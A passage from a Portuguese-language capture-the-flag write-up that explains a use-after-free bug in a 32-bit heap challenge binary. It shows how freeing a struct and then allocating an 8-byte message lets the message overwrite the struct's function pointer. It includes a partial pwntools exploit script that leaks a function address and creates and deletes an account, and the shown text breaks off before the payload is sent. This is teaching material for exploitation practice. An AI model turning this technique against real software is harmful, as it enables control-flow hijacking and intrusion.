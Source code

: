 Sabendo que o sistema onde estamos executando o código remoto contém 32 bits, então o nosso struct mostrado abaixo vai conter 8 bytes no total:
- uintptr_t (Dado inteiro sem sinal): 4 bytes
- char *: Em sistema de 32 bits ponteiros possuem 4 bytes para conseguir representar qualquer endereço existente possível

```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;
```

Sendo assim, ao criar uma conta iremos colocar os dados de whatToDo e username no heap, ocupando 8 bytes.
Entretanto, ao remover uma conta estaremos apenas indicando para o sistema que o espaço de 8 bytes anteriormente utilizado agora está livre para ser utilizado novamente, mantendo o ponteiro ainda apontando para aquele espaço de memória.

Somado a isso, quando executamos a função de armazenamento de mensagem estamos realizando um malloc com tamanho de 8 bytes e a localização desse novo mapeamento no heap será na mesma posição dos dados do último free realizado (Ou seja, a mensagem será colocada na mesma posição que estavam os dados do struct, já que ambos possuem 8 bytes). Temos aqui então a falha **USE AFTER FREE**.

O que vamos fazer é colocar nessa mensagem (Mais especificamente nos 4 primeiros bytes) o endereço da função ```hahaexploitgobrrr()``` para que, ao executar o ```doProcess(user)```, o ponteiro whatToDo agora aponte para a função hahaexploitgobrrr(), exibindo a flag no terminal.

### Script em python para obter a flag passo a passo

Passos:
- Obter endereço da função hahaexploitgobrrr() pela opção "S" do menu
- Criar conta do usuário
- Deletar conta do usuário
- Inserir mensagem contendo os 4 primeiros bytes com o endereço de hahaexploitgobrrr()


Código:
```python
from pwn import context, log, p32, remote, sys

context.binary = 'vuln'


def get_process():
    if len(sys.argv) == 1:
        return context.binary.process()

    host, port = sys.argv[1], sys.argv[2]
    return remote(host, int(port))


def main():
    p = get_process()

    # Pega o endereço da função hahaexploitgobrrr como inteiro
    p.sendlineafter(b'(e)xit\n', b'S')
    p.recvuntil(b'OOP! Memory leak...')
    leak = int(p.recvline().decode().strip(), 16)

    # Cria uma conta colocando um nome qualquer para o usuário
    p.sendlineafter(b'(e)xit\n', b'M')
    p.sendlineafter(b'Enter your username: \n', b'AAA')  

    # Solicita remoção da conta
    p.sendlineafter(b'(e)xit\n', b'I')
    # Confirma remoção da conta
```